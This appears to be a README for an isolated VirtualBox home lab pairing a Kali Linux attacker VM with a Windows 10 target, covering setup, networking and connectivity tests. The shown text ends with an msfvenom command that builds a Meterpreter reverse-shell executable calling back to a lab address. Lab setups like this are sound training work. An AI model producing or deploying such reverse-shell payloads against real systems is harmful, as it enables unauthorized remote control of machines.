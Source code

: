 # 🧪 Cybersecurity Home Lab Setup

---

## 📄 Description

This project sets up a virtualized cybersecurity lab using VirtualBox to simulate attacker-victim scenarios. It includes configuring a Kali Linux attacker machine and a Windows 10 target machine on a host-only/internal network. The environment provides a safe and isolated setup for testing network attacks, reverse shells, and other ethical hacking techniques.

---

## 🖥️ Environments Used

- **Host OS**: Windows 10 or macOS
- **Virtualization**: VirtualBox (v7.x) + Extension Pack
- **Attacker VM**: Kali Linux
- **Target VM**: Windows 10 (Eval or ISO)

---

## 🛠️ Languages and Tools Used

- VirtualBox
- Kali Linux Tools (nmap, msfvenom, etc.)
- Windows Sysinternals
- Meterpreter (Metasploit Framework)

---

## ⚙️ Program Walkthrough

---

### 1. Install VirtualBox & Extension Pack

Install Oracle VirtualBox and its Extension Pack from [virtualbox.org](https://www.virtualbox.org/).

📸 Screenshot: VirtualBox successfully launched  
![VirtualBox Welcome Screen](./screenshots/virtualbox-launch.png)
---

### 2. Create Virtual Machines

Create two VMs with these specs:

| VM        | RAM    | Disk Size | OS         |
|-----------|--------|-----------|------------|
| Kali      | 2 GB   | 20 GB     | Kali Linux |
| Windows   | 4 GB   | 40+ GB    | Windows 10 |

📸 *Screenshot Example:*  
![VM Creation](./screenshots/vm-creation.png)

---

### 3. Configure Network (Host-Only)

Set both VMs to the **Host-Only Adapter** to allow isolated communication.

📸 *Screenshot Example:*  
![Network Config](./screenshots/network-config.png)

---

### 4. Boot VMs and Set IP Addresses

Use `ip a` on Kali and `ipconfig` on Windows to confirm both VMs are on the same subnet.

📸 *Screenshot Example:*  
![Kali IP](./screenshots/kali-ip.png)  
![Windows IP](./screenshots/windows-ip.png)

---

### 5. Install Guest Additions (Windows Only)

Fix resolution on Windows VM by installing Guest Additions.

📸 *Screenshot Example:*  
![Guest Additions](./screenshots/guest-additions.png)

---

### 6. Test Connectivity

Ping each machine from the other to confirm they’re connected.

📸 *Screenshot Example:*  
![Ping Test](./screenshots/ping-test.png)

---

### 7. Generate & Deploy Payload (Optional Preview)

In later parts, we generate a reverse shell using `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.56.101 lport=4444 -f exe > shell.exe
